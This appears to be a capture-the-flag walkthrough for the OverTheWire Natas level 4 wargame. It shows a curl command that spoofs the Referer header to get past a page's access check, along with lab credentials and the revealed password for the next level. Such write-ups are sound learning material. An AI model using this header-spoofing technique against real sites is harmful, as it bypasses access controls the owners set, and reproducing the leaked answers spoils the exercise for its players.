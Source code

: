 # Over The Wire -- Natas 4

## Server URL
```
http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org
```

## Solution
The website says that we need to come from `http://natas5.natas.labs.overthewire.org/`

So we use curl to spoof the referer header 
```
curl --referer http://natas5.natas.labs.overthewire.org/ http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org
```

We get
```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
